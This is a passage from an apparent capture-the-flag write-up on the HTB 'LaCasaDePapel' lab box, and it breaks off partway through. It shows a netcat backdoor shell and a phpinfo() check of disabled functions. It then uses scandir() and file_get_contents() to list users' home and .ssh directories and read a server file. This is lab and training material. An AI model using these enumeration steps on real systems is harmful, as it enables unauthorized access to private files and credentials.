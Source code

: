Disabled.

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%205.png)

We can use rlwrap for a better shell:

```bash
rlwrap nc 10.10.10.131 6200
```

Now, our goal should be to upgrade our shell. We can use phpinfo() to find what functions are disabled:

```bash
phpinfo()
```

Now search for disable_functions

```bash
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

However, we can read directories and files using scandir() and file_get_contents() respectively. 

```bash
scandir("/home")
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]

scandir("/home/berlin")
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]

scandir("/home/berlin/.ssh")
PHP Warning:  scandir(/home/berlin/.ssh): failed to open dir: Permission denied in phar://eval()'d code on line 1

scandir("/home/dali/.ssh")
=> [
     ".",
     "..",
     "authorized_keys",
     "known_hosts",
   ]

file_get_contents("/home/dali/server.js")
=> """
   const net = require('net')\n
   const spawn = require('child_process').spawn\n
   \n
```